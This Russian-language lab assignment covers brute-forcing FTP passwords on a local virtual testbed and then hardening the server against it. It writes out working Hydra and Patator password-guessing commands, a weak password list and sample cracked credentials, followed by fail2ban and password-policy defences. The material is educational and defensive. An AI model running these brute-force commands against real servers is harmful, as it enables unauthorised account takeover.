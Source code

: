 # Лабораторная работа №12 - Исследование способов перебора паролей для FTP-серверов (в учебных целях)  

#### **Цель работы:**  
Изучить методы перебора паролей для FTP-серверов с использованием инструментов **Hydra** и **Patator** (в учебных целях). Освоить защитные меры против подобных атак.  

---

## **1. Подготовка виртуального стенда**  

### **1.1. Создание виртуальных машин**  
Используем **2 виртуальные машины**:  
- **VM1 (Атакующий)**: Kali Linux (или другая система с установленными Hydra и Patator).  
- **VM2 (Цель)**: Сервер с FTP (например, vsftpd на Debian/Ubuntu).  

### **1.2. Настройка сети**  
- Обе машины должны находиться в одной сети (например, **NAT** или **Host-only**).  
- **VM1 (Kali Linux)**: `192.168.56.10`  
- **VM2 (FTP-сервер)**: `192.168.56.20`  

### **1.3. Установка FTP-сервера на VM2**  
```bash
sudo apt update
sudo apt install vsftpd -y
sudo systemctl start vsftpd
sudo systemctl enable vsftpd
```  

### **1.4. Создание тестовых пользователей**  
```bash
sudo useradd -m testuser1
sudo passwd testuser1  # Установите пароль "12345"
sudo useradd -m testuser2
sudo passwd testuser2  # Установите пароль "qwerty"
```  

---

## **2. Перебор паролей с помощью Hydra**  

### **2.1. Установка Hydra** (если нет в Kali Linux)  
```bash
sudo apt install hydra -y
```  

### **2.2. Создание словаря паролей**  
Создаем файл `passwords.txt`:  
```
12345
qwerty
password
admin
123456
letmein
```  

### **2.3. Запуск атаки перебора**  
```bash
hydra -l testuser1 -P passwords.txt ftp://192.168.56.20 -V
```  
**Где:**  
- `-l` – имя пользователя.  
- `-P` – путь к файлу с паролями.  
- `-V` – подробный вывод.  

**Пример успешного подбора:**  
```
[STATUS] 192.168.56.20 ftp login: testuser1 password: 12345
```  

---

## **3. Перебор паролей с помощью Patator**  

### **3.1. Установка Patator**  
```bash
sudo apt install patator -y
```  

### **3.2. Запуск атаки**  
```bash
patator ftp_login host=192.168.56.20 user=testuser2 password=FILE0 0=passwords.txt -x ignore:mesg='Login incorrect.'
```  
**Где:**  
- `host` – IP FTP-сервера.  
- `user` – имя пользователя.  
- `password=FILE0` – чтение паролей из файла.  
- `-x ignore:mesg='Login incorrect.'` – игнорировать неудачные попытки.  

**Пример успешного подбора:**  
```
Found valid credentials: testuser2:qwerty
```  

---

## **4. Защита от перебора паролей**  

### **4.1. Ограничение попыток входа (fail2ban)**  
```bash
sudo apt install fail2ban -y
sudo nano /etc/fail2ban/jail.local
```  
**Добавляем:**  
```ini
[vsftpd]
enabled = true
maxretry = 3
bantime = 600
```  

### **4.2. Использование сложных паролей**  
```bash
sudo apt install libpam-pwquality
sudo nano /etc/security/pwquality.conf
```  
**Настройки:**  
```ini
minlen = 12
dcredit = -1
ucredit = -1
ocredit = -1
lcredit = -1
```  

### **4.3. Отключение анонимного FTP**  
```bash
sudo nano /etc/vsftpd.conf
```  
**Проверяем:**  
```ini
anonymous_enable=NO
local_enable=YES
chroot_local_user=YES
```  

**Важно:** Данная работа предназначена **только для учебных целей**. Несанкционированный перебор паролей незаконен.